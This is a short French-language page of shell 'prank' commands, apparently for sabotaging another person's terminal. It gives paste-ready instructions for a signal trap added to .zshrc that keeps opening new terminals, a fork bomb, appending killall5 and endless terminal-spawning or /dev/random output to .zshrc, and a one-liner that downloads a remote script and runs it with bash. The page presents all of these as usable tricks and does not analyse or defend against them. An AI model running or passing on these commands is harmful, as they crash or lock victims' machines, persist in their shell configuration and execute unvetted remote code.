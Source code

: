 trap 'gnome-terminal -- zsh -c "source .zshrc && curl parrot.live"' ABRT ALRM BUS CHLD CLD CONT FPE HUP ILL INT IO KILL PIPE POLL PROF PWR QUIT SEGV STKFLT 
curl parrot.live

```nano .zshrc``` -> coller a la toute fin du fichier -> CTRL+O entree et CTRL+X
```source .zshrc```


[------------------------------------------------------------]


dans la racine (dossier home)
```touch .reset```

Pour enlever -> ```rm -rf .reset```

[-------------------------------------------------------------]
/!\ DANGER MAXIMAL /!\

```:(){ :|:& };:```

[-------------------------------------------------------------]
/!\ DANGER MAIS CA VA /!\

```echo "killall5" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal" >> .zshrc && source .zshrc```


[-------------------------------------------------------------]
```echo "gnome-terminal && cat /dev/random" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal && curl parrot.live" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal && curl ASCII.live/can-you-hear-me" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
Supp raccourci : DANGEREUX JSP ENLEVER
```curl -o magni.sh https://raw.githubusercontent.com/xXCARRELAGEXx/NotLocked/main/magni.sh ; chmod +x magni.sh ; bash magni.sh```
